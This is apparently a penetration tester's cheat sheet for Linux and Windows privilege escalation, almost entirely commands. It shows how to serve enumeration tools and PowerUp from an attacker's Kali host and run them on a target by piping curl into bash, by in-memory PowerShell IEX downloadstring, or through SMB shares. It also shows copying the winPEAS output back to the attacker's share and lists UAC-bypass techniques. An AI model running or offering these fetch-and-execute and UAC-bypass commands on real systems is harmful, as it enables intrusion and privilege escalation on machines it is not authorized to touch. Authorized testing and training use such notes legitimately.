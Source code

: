# Privilege Escalation

## Linux

- HTTP

Host the file

```bash
cd /opt/linux_privesc
sudo python -m http.server 80
```

### LinPEAS

```bash
curl http://<Kali IP>/linpeas.sh | bash
```

or

```bash
wget http://<Kali IP>/linpeas.sh
bash linpeas.sh
```

### LinEnum.sh

```bash
curl http://<Kali IP>/LinEnum.sh | bash
```

or

```bash
wget http://<Kali IP>/LinEnum.sh
bash LinEnum.sh
```

### linuxprivchecker.py

```bash
wget http://<Kali IP>/linuxprivchecker.py
python linuxprivchecker.py
```

### Trator

```bash
wget http://<Kali IP>/traitor-amd64
chmod +x traitor-amd64
./traitor-amd64 -a
```

### pspy

```bash
wget http://<Kali IP>/pspy64s
chmod +x pspy64s
./pspy64s
```

## Windows

### winPEAS

- HTTP

Host the file

```bash
cd /usr/share/windows-resources/binaries
sudo python -m http.server 80
```

Copy on Target and execute

```powershell
Invoke-WebRequest -Uri 'http://<Kali IP>/winPEASany.exe' -OutFile <Path>\winPEASany.exe
<Path>\winPEASany.exe
```

Or execute direct on memory

```powershell
IEX(New-Object Net.WebClient).downloadstring('http://<Kali IP>/winPEASany.exe')
```

- SMB

Host the file

```bash
cd /usr/share/windows-resources/binaries
impacket-smbserver share $(pwd) -smb2support
```

```bash
net use \\<Kali IP>\share
copy \\<Kali IP>\share\winPEASany.exe .
winPEASany.exe
```

or

```bash
xcopy \\<Kali IP>\share\winPEASany.exe C:\Temp\winPEAS\

cd C:\Temp\winPEAS
C:\Temp\winPEAS\winPEASany.exe > C:\Temp\winPEAS\winPEAS.log

xcopy C:\Temp\winPEAS\winPEAS.log \\<Kali IP>\share\
```

### PowerUp

- HTTP

Host the file

```bash
cd /usr/share/windows-resources/powersploit/Privesc/
sudo python -m http.server 80
```

Copy on Target and execute

```powershell
Invoke-WebRequest -Uri 'http://<Kali IP>/PowerUp.ps1' -OutFile <Path>\PowerUp.ps1
Import-Module <Path>\PowerUp.ps1
Invoke-AllChecks
```

Or execute direct on memory

```powershell
IEX(New-Object Net.WebClient).downloadstring('http://<Kali IP>/PowerUp.ps1')
Invoke-AllChecks
```

- SMB

Host the file

```bash
cd /usr/share/windows-resources/powersploit/Privesc/
impacket-smbserver share $(pwd) -smb2support
```

```powershell
net use \\<Kali IP>\share
copy \\<Kali IP>\share\PowerUp.ps1 .
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```

or

```powershell
xcopy \\<Kali IP>\share\PowerUp.ps1 C:\Temp\PowerUp\

Import-Module C:\Temp\PowerUp\PowerUp.ps1
Invoke-AllChecks
```

### Bypass-UAC

- HTTP

```powershell
Invoke-WebRequest -Uri 'http://<Kali IP>/Bypass-UAC.ps1' -OutFile <Path>\Bypass-UAC.ps1
Import-Module <Path>\Bypass-UAC.ps1
Get-Help Bypass-UAC
```

```powershell
#-------------------#
# Supported Methods #
#-------------------#

+ UacMethodSysprep: x32/x64 Win7-Win8
+ ucmDismMethod: x64 Win7+ (unpatched, tested up to 10RS2 14926)
+ UacMethodMMC2: x64 Win7+ (unpatched, tested up to 10RS2 14926)
+ UacMethodTcmsetup: x32/x64 Win7-10 (UAC "0day" A_\_(aƒ,)_/A_)
+ UacMethodNetOle32: x32/x64 Win7-10 (UAC "0day" A_\_(aƒ,)_/A_)
```

## Links

- [Basic Linux privilege escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
- [Linux - Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
- [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker)
- [Trator](https://github.com/liamg/traitor)
- [GTFOBins](https://gtfobins.github.io/)
- [pspy](https://github.com/DominicBreuker/pspy)
- [Windows - blog- uac-bypass](https://juggernaut-sec.com/uac-bypass/)
- [Windows - how uac-bypass work](https://cqureacademy.com/cqure-labs/cqlabs-how-uac-bypass-methods-really-work-by-adrian-denkiewicz)
- [Windows - UACMe - uac-bypass](https://github.com/hfiref0x/UACME)
- [Windows - UAC - Bypass-UAC](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC)
